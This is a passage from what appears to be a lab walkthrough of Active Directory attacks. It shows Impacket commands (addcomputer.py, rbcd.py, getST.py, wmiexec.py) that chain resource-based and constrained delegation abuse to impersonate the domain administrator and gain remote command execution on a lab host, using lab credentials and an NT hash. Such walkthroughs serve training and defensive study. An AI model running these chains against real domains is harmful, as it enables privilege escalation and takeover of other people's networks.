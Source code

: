 - By doing that, you can do a s4u2self followed by a s4u2proxy on the added computer and the result is a forwardable tgs on hots/castelblack$ as administrator.

- Once that done, you have the forwardable ticket to pass to s4u2proxy, and we even can change the request service with -altservice


```bash
# add computer X (rbcd_const)
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/arya.stark:Needle'

# add rbcd from X (rbcd_const) to constrained (castelblack)
rbcd.py -delegate-from 'rbcd_const$' -delegate-to 'castelblack$' -dc-ip 192.168.56.11 -action 'write' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
```

- Do the s4u2self followed by the s4u2proxy on castelblack (this is the classic RBCD attack)

```bash
# s4u2self on X (rbcd_const)
getST.py -self -impersonate "administrator" -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'

# s4u2proxy from X (rbcd_const) to constrained (castelblack)
getST.py -impersonate "administrator" -spn "host/castelblack" -additional-ticket 'administrator@rbcd_const$@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- You could also do the 2 (s4u2self + s4u2proxy) in one command :

```bash
getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.56.11 north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- And launch the s4uProxy with the forwardable ticket

```bash
# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket 'administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11 -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'

export KRB5CCNAME=/workspace/administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache 
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```
